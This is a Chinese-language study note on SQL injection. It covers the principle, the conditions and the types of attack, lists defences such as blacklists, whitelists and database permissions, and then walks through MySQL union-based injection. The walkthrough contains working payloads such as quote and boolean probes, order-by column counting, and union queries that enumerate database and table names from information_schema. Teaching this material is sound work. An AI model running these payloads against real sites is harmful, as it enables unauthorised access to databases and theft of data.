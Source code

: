 ## 一、sql注入原理：
攻击者构造的特殊SQL语句的内容传到web应用，没有经过过滤或者严格的过滤，被带入到了数据库中进行执行，导致获取或者修改数据库中的数据。</br>
## 二、sql注入漏洞关键条件：
（1）用户能控制输入内容；</br>
（2）web应用没有严格过滤输入的内容，将其带入到数据库执行</br>
## 三、sql注入的分类：
（1）按照数据库分类：MySQL数据库注入、sqlserver数据库注入、access数据库注入、Oracle数据库注入、nosql注入;</br>
（2）按照语句划分：select，update，insert，delete，limit之后的注入，order by之后的注入；</br>
（3）按照位置划分：get，post，http header(cookie,referrer,user-agent等)；</br>
（4）按照SQL注入点反馈类型分类：union类型，基于错误显示，布尔类型，基于时间，其他类型；</br>
（5）其他类型：base64注入，二次编码注入，宽字节注入，OOB-dns外带注入</br>
## 四、sql注入的防御方法：
（1）定制黑名单：将常用的SQL注入字符写入到黑名单中，然后通过程序对用户提交的POST、GET请求以及请求中的各个字段都进行过滤检查，筛选威胁字符。</br>
（2）限制查询长度：由于SQL注入过程中需要构造较长的SQL语句，因此，一些特定的程序可以使用限制用户提交的请求内容的长度来达到防御SQL注入的目的，但这种效果并不好。</br>
（3）限制查询类型：限制用户请求内容中每个字段的类型，并在用户提交请求的时候进行检查，凡不符合该类型的提交就认为是非法请求。</br>
（4）白名单法：该方法只对部分程序有效，对一些请求内容相对固定的程序，可以制定请求内容的白名单，如：某程序接受的请求只有数字，且数字为1至100，这样可以检查程序接受的请求内容是否匹配，如果不匹配，则认为是非法请求。</br>
（5）设置数据库权限：根据程序要求为特定的表设置特定的权限，如：某段程序对某表只需具备select权限即可，这样即使程序存在问题，恶意用户也无法对表进行update或insert等写入操作。</br>
（6）限制目录权限：WEB目录应至少遵循“可写目录不可执行，可执行目录不可写”的原则，在此基础上，对各目录进行必要的权限细化。</br>
## 五、重点谈一谈MySQL注入：
### 1、联合注入：
***（1）判断是否有注入及注入点的类型***
```
是否有注入：加单引号，and 111=111，and ’1’=’1’，and 1=2，or 1=1，or 1=2</br>
注入点类型：字符型（’，”，’），”)，%’），数字型</br>
```
***（2）判断查询列数（order by）***
原理order by 是排序的语句：</br>
```SQL
select * from users order by id
select * from users order by id desc
select * from users order by 1
```
***（3）联合查询***
```
id=1’ union select 1,2,3--+
id=-1’ union select 1,2,3--+
```
***（4）获取基本信息***
```
version()  数据库版本
database()  当前网站使用的数据库
user()  当前网站使用的数据库账户
@@secure_file_priv         数据库的读写文件
@@datadir  数据库安装目录：phpstudy（c:\phpstudy\mysql;c:\phpstudy\www）、wamp（c:\wamp\mysql;c:\wamp\www）
```
***（5）获取数据库名***
information_schema数据库（schemata表、tables表、columns表）；
schemata表里面获取数据库名：
```
select schema_name from schemata;
id=1' union select 1,2,group_concat(schema_name) from information_schema.schemata
```
***（6）获取表名（tables表）***
```
select table_name from tables where table_schema='security';
select table_name from tables where table_schema=database();
id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```